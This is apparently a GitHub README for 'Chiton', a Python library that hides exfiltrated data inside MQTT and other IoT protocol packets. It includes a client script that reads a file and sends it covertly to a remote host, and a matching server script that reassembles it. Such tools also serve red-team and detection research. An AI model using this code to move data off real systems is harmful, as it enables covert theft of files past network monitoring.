 # Chitón

![Chitón (Los caprichos) - Francisco de Goya](https://drive.google.com/uc?export=view&id=1yXGYiMW7CumDmnjg0zEu51syuJh21bjY)

[`Chiton`](https://dle.rae.es/?w=chit%C3%B3n) is a Python library to exfiltrate data encapsulating the data into IoT protocol’s packets. The library allows you to encapsulate/de-encapsulate binary data into/from a protocol packets, and send/receive protocol packets to another host over Internet.

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

## Dependencies

`Chiton` relies on [Scapy Project](https://scapy.net/) to encapsulate/de-encapsulate binary data. It can be installed by the following command:

```Shell
$ python3 -m pip install scapy
```

## Example of Usage

`Chiton` is designed to be imported as a library in any project, and it follows the client/server model. The client is responsible of exfiltrate data:

```Python
import sys

import chiton.network.client as client
import chiton.protocol.mqtt as mqtt

def main(filename):
    protocol = mqtt.MQTT(mqtt.PUBLISH)
    mqtt_client = client.Client(protocol, '192.168.1.40')
    data = read_file(filename)
    mqtt_client.send(data)

def read_file(filename):
    with open(filename, 'rb') as f:
        return f.read()

if __name__ == '__main__':
    main(sys.argv[1])
```

In this example, the file to exfiltrate is passed as argument to the script, which reads it as binary data. The chosen protocol in this case is MQTT with the packet type PUBLISH, and this protocol is used to create a client object willing to communicate with the host at address `192.168.1.40`. Finally, the data to exfiltrate is simply sent to the desired host calling the send function with the data as parameter, and the library handles the encapsulation of the data into the protocol’s packet payload.

```Python
import chiton.network.server as server
import chiton.protocol.mqtt as mqtt

def main():
    protocol = mqtt.MQTT(mqtt.PUBLISH)
    mqtt_server = server.Server(protocol)
    data = mqtt_server.recv()
    write_file(data, 'output.bin')


def write_file(data, filename):
    with open(filename, 'wb') as f:
        f.write(data)

if __name__ == '__main__':
    main()
```

In the other side of the communication, the example server script should be running. The workflow is similar to the client, as the server needs to specify the protocol used for data transfer, and data is finally received. The library automatically de-encapsulates the packet payload to reassemble the original payload, ready to be saved into a file.

## License

Licensed under the [GNU GPLv3](LICENSE) license.
